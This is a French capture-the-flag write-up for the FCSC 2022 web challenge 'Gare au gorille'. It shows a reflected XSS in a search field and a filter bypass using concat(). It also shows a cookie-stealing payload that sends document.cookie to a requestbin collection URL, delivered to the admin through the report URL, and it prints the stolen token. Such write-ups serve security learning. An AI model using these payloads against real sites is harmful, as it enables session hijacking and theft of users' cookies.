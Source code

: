 <h1>Gare au gorille</h1>

<p>On test dans un premier temps le champs search :</p>

> https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert(1)</script> <br/>



![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20160319.png?raw=true "alert")

<br/>
<br/>
Cela fonctionne je crée donc une request bin https://requestbin.net et test simplement : <br/>

> <script>document.location= urlrequestbin?= + document.cookie </script>
<br/>
Cela ne marche pas après plusieurs test on se rend compte que les '+' et les ';' ne fonctionne pas. Pour contourner le problème je fais donc une recherche type javascript concat fonction et je tombe bien sur une fonction concat et modifie mon payload en conséquense : <br/> 


  <script>document.location="".concat('urlrequestbin?=', document.cookie)</script> 
</br>
On recupère notre propre token, on envoie donc la payload à l'admin par l'url de report : <br/> 

> https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=<script>document.location="".concat(%27http://urlrequestbin?=%27,%20document.cookie)</script> <br/>

![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20162522.png?raw=true "token") <br/>

On set maintenant le token dans notre cookie dans le header : <br/>

> Cookie: token=O9Mv3sFaQD1UpQRLCXVOCzCi0dRbpz4Wy4kGPngZt36MZnR6xZpbHLQRWfDi6T45 <br/>

![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20163109.png?raw=true "flag")







